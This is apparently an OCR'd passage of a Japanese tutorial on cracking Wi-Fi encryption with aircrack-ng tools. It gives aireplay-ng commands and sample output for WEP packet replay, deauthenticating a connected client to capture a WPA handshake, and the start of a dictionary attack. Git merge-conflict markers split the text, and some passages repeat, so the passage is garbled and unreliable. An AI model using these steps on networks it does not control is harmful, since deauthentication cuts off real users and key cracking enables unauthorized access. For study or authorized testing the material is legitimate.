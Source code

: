 　最後にInteractive packet replayで、自分で作ったARPリクエストを元にパケ
ットを発生させます。「aireplay\-ng \-2 \-r <packetforge\-ngで作ったファイル名
> <使用するNIC>」と入力してください。実行後、airodump\-ngの\#Dataが油断なく
容赦なくどんどん増えていけば成功です。

\-\-\-\-\-
\# aireplay\-ng \-2 \-r aprr ath1

        Size: 68, FromDS: 0, ToDS: 1 (WEP)

             BSSID \= 00:11:22:33:44:55
         Dest. MAC \= AA:AA:AA:AA:AA:AA
        Source MAC \= BB:BB:BB:BB:BB:BB

        0x0000:  0841 de00 0014 6c7e 4080 000f b534 decf  .A....l\~@.......
        0x0010:  ffff ffff ffff 8045 d16a c800 6f4f ddef  ......@E.j..oO..
        0x0020:  b488 ad7c 9f2a 64f6 ab04 d363 0efe 4162  ...|.*d....c..Ab
        0x0030:  8ad9 2f74 16bb abcf 232e 97ee 5e45 754d  ../t....\#...^EuM
        0x0040:  23e0 883e                                \#..>

Use this packet ? y（ここで[y]キーを押す）

Saving chosen packet in replay_src\-1234\-567890.cap
You should also start airodump\-ng to capture replies.
 
Sent 512 packets...
\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

　あとは解読だけですが、方法は前者と変わらないため省略しますのであしから
ず。

●WPAキーの解読

　ターゲットAPのパケットキャプチャまではWEPと同じなので、解読に必要なハン
ドシェイクの手に入れ方からいきたいと思います。
<<<<<<< HEAD
　まずは「aireplay-ng -0 1 -a <ターゲットAPのBSSID> -c <ターゲットAPに接
続しているユーザーのMACアドレス> <使用するNIC>」と入力してDeauthenticati
onを実行します。

-----
# aireplay-ng -0 1 -a 00:11:22:33:44:55 -c XX:XX:XX:XX:XX:XX ath1
13:25:40 Sending DeAuth to station   -- STMAC: [XX:XX:XX:XX:XX:XX]
-----

　すると、airodump-ngの右上らへんに「WPA handshake: FF:FF:FF:FF:FF:FF」と
いうのが出てきますので、それを確認したらairodump-ngを[ctrl]+[c]で終了させ
ます。

　そうしたらもうあとは解読あるのみです。
　WPAの場合は辞書アタックしかできませんので「aircrack-ng -w <辞書ファイル
=======
　まずは「aireplay\-ng \-0 1 \-a <ターゲットAPのBSSID> \-c <ターゲットAPに接
続しているユーザーのMACアドレス> <使用するNIC>」と入力してDeauthenticati
onを実行します。
